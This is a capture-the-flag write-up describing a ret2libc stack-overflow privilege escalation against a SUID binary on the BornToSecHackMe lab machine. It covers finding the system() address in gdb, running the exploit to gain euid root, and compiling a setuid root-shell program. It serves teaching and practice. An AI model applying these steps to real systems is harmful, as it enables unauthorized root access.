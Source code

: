# Writeup 3 - ret2libc

> This writeup takes from [Writeup 1](../writeup1/README.md), having discovered `zaz` user's credentials.

Instead of writing our payload to the stack to execute it, we can use a "ret2libc" technique, which will jump to a libc function that will execute our payload.

## Preparation

Like the previous writeup, we first need access to a proper shell on the machine, here we use the `zaz` user account again, as it contains the `exploit_me` binary, needed for this exploit.

## Explanation

In the first `breadcrumbs` path, we simply execute the stack of the vulnerable suid binary to get a shell with elevated privileges. This works fine on this machine as the stack of this program is ***executable***: this means we can easily overwrite a return address with an address of a user-controlled shellcode.
With newer machines, and better security standards, the stack of a program is usually not executable, which makes the previous exploit unusable. This is where ***ret2libc*** or ***return to libc*** comes in. The idea behind this exploit is very similar, it is still a stack overflow attack, but instead of inputting an address pointing to a *shellcode* to run we point towards the memory location of the function `system()`, to which we can pass the path to a shell to be executed.

## Running the exploit

We first need to find the address of the `system()` function in libc, we can do this in `gdb`:
```
Temporary breakpoint 1, 0x080483f7 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Next, we need to find somewhere in memory where the string `/bin/sh` is stored, so we can pass it to `system()` and execute it. We can either use the `strings` command to analyze loaded libraries (`libc.so`), or we can look into environment variables. A common environment variable that's set by the shell and already available to us is...
```bash
$ echo $SHELL
/bin/sh
```

Neat! Everything we need is already in memory, we just need to get our payload into an executable position via some ridiculously crafted offset aaaaanddddd:
```bash
$ SHELL=/bin/dash ./exploit_me $(echo -en $(python2 payload-ret2libc.py))
...
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```

And we're done! Almost.

A little bit of cleanup is needed:
```c
#include <stdlib.h>

int main(void) {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

```
# cc -o /tmp/final /tmp/final.c
# /tmp/final
root@BornToSecHackMe:~# id
uid=0(root) gid=0(root) groups=0(root)
```

pwned. 😎 (true hacker style)
